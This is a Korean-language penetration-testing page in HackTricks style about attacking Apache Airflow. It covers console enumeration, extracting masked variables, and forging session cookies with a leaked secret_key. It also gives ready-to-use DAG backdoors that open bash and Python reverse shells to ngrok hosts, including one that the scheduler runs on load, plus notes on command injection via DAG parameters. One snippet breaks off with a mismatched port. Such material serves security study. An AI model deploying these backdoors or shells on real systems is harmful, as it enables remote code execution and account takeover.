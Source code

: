 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### 기본 정보

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 사용됩니다. 데이터 파이프라인의 맥락에서 "조정"이라는 용어는 다양한 출처에서 발생하는 복잡한 데이터 워크플로우를 정리하고, 조정하며, 관리하는 과정을 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리되고 소비 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신 러닝 모델 등 다양한 애플리케이션에서 광범위하게 사용되며, 이는 빅 데이터 애플리케이션의 기능에 필수적입니다.

기본적으로, Apache Airflow는 **무언가**(이벤트, 크론)가 **발생할 때 코드 실행을 예약할 수 있게 해줍니다**.

### 로컬 실험실

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)에서 **docker-compose 구성 파일을 사용하여** 완전한 apache airflow 도커 환경을 시작할 수 있습니다. (MacOS를 사용하는 경우 도커 VM에 최소 6GB의 RAM을 할당해야 합니다).

#### Minikube

**apache airflow**를 실행하는 쉬운 방법 중 하나는 **minikube로 실행하는 것입니다**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow 구성

Airflow는 **민감한 정보**를 구성에 저장할 수 있으며, 약한 구성이 있을 수 있습니다:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Airflow를 공격하기 전에 **권한 작동 방식**을 이해해야 합니다:

{{#ref}}
airflow-rbac.md
{{#endref}}

### 공격

#### 웹 콘솔 열거

**웹 콘솔에 접근할 수** 있다면 다음 정보 중 일부 또는 전부에 접근할 수 있습니다:

- **변수** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
- **연결** (여기에 사용자 정의 민감한 정보가 저장될 수 있습니다)
- `http://<airflow>/connection/list/`에서 접근
- [**구성**](./#airflow-configuration) (여기에 **`secret_key`** 및 비밀번호와 같은 민감한 정보가 저장될 수 있습니다)
- **사용자 및 역할** 목록
- **각 DAG의 코드** (흥미로운 정보가 포함될 수 있습니다)

#### 변수 값 검색

변수는 Airflow에 저장될 수 있어 **DAGs**가 **값에 접근**할 수 있습니다. 이는 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 `http://<airflow>/variable/list/`의 GUI에서 접근할 수 있습니다.\
Airflow는 기본적으로 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **값**이 **별표**로 표시되는 **변수 목록**을 설정할 수 있습니다.

![](<../../images/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**를 통해 **검색**할 수 있으며 (DB 접근이 필요), **임의의 DAG** 실행, **API**를 통해 변수 엔드포인트에 접근 (API가 활성화되어야 함), **심지어 GUI 자체**를 통해서도 가능합니다!\
GUI에서 이러한 값에 접근하려면 **접근하고자 하는 변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
또 다른 방법은 **검색 필터링**을 사용하여 **숨겨진 값**에 대해 **브루트포스**를 수행하는 것입니다:

![](<../../images/image (152).png>)

#### 권한 상승

**`expose_config`** 구성이 **True**로 설정된 경우, **User** 역할 및 **상위** 역할은 **웹에서 구성**을 **읽을 수** 있습니다. 이 구성에는 **`secret_key`**가 나타나며, 이는 유효한 사용자가 **자신의 서명된 쿠키를 생성하여 다른 사용자 계정을 가장할 수** 있음을 의미합니다.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 백도어 (Airflow 작업자에서 RCE)

**DAGs가 저장된** 위치에 **쓰기 권한**이 있다면, **역쉘**을 보내는 **하나를 생성**할 수 있습니다.\
이 역쉘은 **airflow worker container** 내에서 실행될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 백도어 (Airflow 스케줄러에서 RCE)

코드의 **루트에서 실행되도록 설정**하면, 이 글을 작성하는 시점에서 DAG의 폴더에 넣은 후 몇 초 후에 **스케줄러에 의해 실행**됩니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 생성

DAG 클러스터 내의 **머신을 손상시키는 데 성공하면**, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있으며, 이 스크립트는 DAG 클러스터 내의 **다른 머신에 복제됩니다**.

#### DAG 코드 주입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서 DAG가 제대로 코딩되지 않으면 **명령어 주입에 취약할 수 있습니다.**\
이 CVE에서 발생한 일입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

DAG에서 **명령어 주입을 찾기 시작하기 위해 알아야 할 모든 것은** **매개변수**가 **코드 `dag_run.conf.get("param_name")`**로 **접근된다는 것입니다**.

게다가, 동일한 취약점이 **변수**에서도 발생할 수 있습니다(충분한 권한이 있으면 GUI에서 **변수의 값을 제어할 수 있습니다**). 변수는 **다음과 같이 접근됩니다**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
예를 들어 bash 명령어 안에서 사용된다면, 명령어 주입을 수행할 수 있습니다. 

{{#include ../../banners/hacktricks-training.md}}

